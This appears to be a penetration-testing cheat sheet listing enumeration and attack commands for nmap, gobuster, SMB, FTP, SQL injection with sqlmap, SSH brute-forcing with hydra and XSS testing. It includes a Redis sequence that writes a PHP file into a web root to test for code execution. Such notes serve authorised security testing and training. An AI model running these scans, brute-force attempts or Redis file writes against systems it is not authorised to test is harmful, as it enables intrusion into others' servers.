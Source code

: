 ## Initial Enumeration
### Nmap
```
nmap -sS -sC -oN initial_scan.txt {IP}  
nmap -sS -p- -oN all_ports.txt {IP}
```
### Gobuster 
```
gobuster dir -u http://url -w /location/wordlist/file.txt  
gobuster vhost -u http://url -w /location/wordlist/file.txt  

/usr/share/seclists/Discovery/Web-Content/common.txt  
/usr/share/seclists/Discovery/Web-Content/big.txt  
/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  
```


### Enum4Linux
```
enum4linux -e options http://[ip]
```

### HTTP Request Banner Grabbing
```
Using Netcat
nc <target ip> 80

This will connect to the webserver which will allow you to send a request command

Head / HTTP/1.0

Hit enter twice as all headers have two spaces between them and the request. This should then 
return the Header of the request

```
### SMB 
```
nmap -v -sS -p 445,139 -Pn --script smb-vuln* --script-args=unsafe=1 -oA smb_vuln_scan_192.168.189.42 192.168.189.42  

showmount -e 10.10.10.10  

smbclient -L 10.10.10.10

```
### Redis

```
Redis - 6379
nmap --script redis-info -sV -p 6379 <IP>

To check if the db is able to apply Server side execution run the following, then try to run the file from the browser.
root@Urahara:~# redis-cli -h 10.85.0.52
10.85.0.52:6379> config set dir /usr/share/nginx/html
OK
10.85.0.52:6379> config set dbfilename redis.php
OK
10.85.0.52:6379> set test "<?php phpinfo(); ?>"
OK
10.85.0.52:6379> save
OK

>info 
>get config *

https://book.hacktricks.xyz/pentesting/6379-pentesting-redis
```

### SQL
```
sqlmap -u http://192.168.202.163/login/index.php?id=1 --batch 
--batch bypasses all options when running commands

```

## Enumerating Discovered Ports

### 22 - SSH 
```
nc -vn <IP> 22
  
msf> use scanner/ssh/ssh_enumusers

hydra -L user.txt -P password.txt {IP} 22
```
  
### 21 FTP 
```
Anonymous Login Enabled
ftp {IP}
anonymous - Username
anonymous - Password 
  ls -al 
  
nmap --script ftp-* -p 21 <ip>

Downloads all files in FTP 
wget -m ftp://anonymous:anonymous@10.10.10.10

Connecting in a browser 
ftp://anonymous:anonymous@10.10.10.10
```

### 80/443 HTTP/HTTPS
#### Nikto 
```
nikto -h {URL}
nikto -h {URL} | tee nikto
```

## Subdomains 
### Sublister
```
sublist3r -d url.com
```

## XSS
### Testing if there is a xss vulnerability 
```
<script>alert("testing")</script>

```



## Active Directory
### Enumeration
### Exploits
### Post Exploitation






